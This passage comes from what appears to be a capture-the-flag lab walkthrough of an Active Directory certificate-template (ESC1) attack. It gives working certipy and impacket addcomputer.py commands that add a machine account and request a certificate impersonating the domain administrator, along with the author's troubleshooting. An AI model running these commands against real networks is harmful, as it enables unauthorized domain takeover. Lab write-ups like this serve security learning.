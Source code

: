 1.  **I retrieve the vulnerable certificate name**:
    -   {{< figure src="/ox-hugo/2024-10-24-094511_.png" >}}
    -   `CorpVPN`

2.  **I sync my clock with the target**:
    -   `sudo ntpdate -s $domain`
    -   {{< figure src="/ox-hugo/2024-10-24-094901_.png" >}}

3.  **I request a cert**:
    -   `certipy-ad req -username bloodstiller$ -password $pass -ca AUTHORITY-CA -dc-ip $dcip -template CorpVPN -upn administrator@$domain -dns $domain`
    -   +Note+: How we have used the name of the certificate we found in step 1 `CorpVPN`
    -   I get the below errors:
        -   {{< figure src="/ox-hugo/2024-10-29-083700_.png" >}}

4.  **Troubleshooting the issue**:
    -   I tried so many different variations of this to try and get it to work. So many different certipy-ad commands as I was convinced I had gotten the syntax wrong. No matter what I did this kept failing. I have done this attack path before so know the commands etc are right.
        -   <https://bloodstiller.com/walkthroughs/escape-box/#using-esc1-attack-chain-to-elevate-privileges-to-administrator>
    -   After some searching online I find the below github issue thread.
        -   <https://github.com/ly4k/Certipy/issues/158>
    -   &amp; this comment:
        -   {{< figure src="/ox-hugo/2024-10-29-083750_.png" >}}


### Using addcomputer.py to start the attack chain again: {#using-addcomputer-dot-py-to-start-the-attack-chain-again}

-   {{< figure src="/ox-hugo/certipymeme.jpeg" >}}

**Let's start this process over using** `addcomputer.py`:

-   **Get the file**:
    -   `wget https://raw.githubusercontent.com/fortra/impacket/refs/heads/master/examples/addcomputer.py`

-   **Add the computer**:
    -   `python3 addcomputer.py -computer-name 'bloodstiller' -computer-pass 'b100dstill3r' -dc-ip $dcip $domain/svc_ldap`
    -   {{< figure src="/ox-hugo/2024-10-29-094940_.png" >}}

-   **Install** `certipy-ad` **via pipx**:
    -   `pipx install certipy-ad`
    -   {{< figure src="/ox-hugo/2024-10-29-095432_.png" >}}

-   **Get ticket**
    -   `certipy req -username bloodstiller$ -password $pass -ca AUTHORITY-CA -dc-ip $dcip -template CorpVPN -upn administrator@$domain  -dns $domain -debug`
    -   {{< figure src="/ox-hugo/2024-10-29-101211_.png" >}}

-   **Attempt to request a** `TGT` **and get the below erorr**:
    -   `certipy auth -pfx administrator_authority.pfx -dc-ip $box`
    -   {{< figure src="/ox-hugo/2024-10-29-101356_.png" >}}
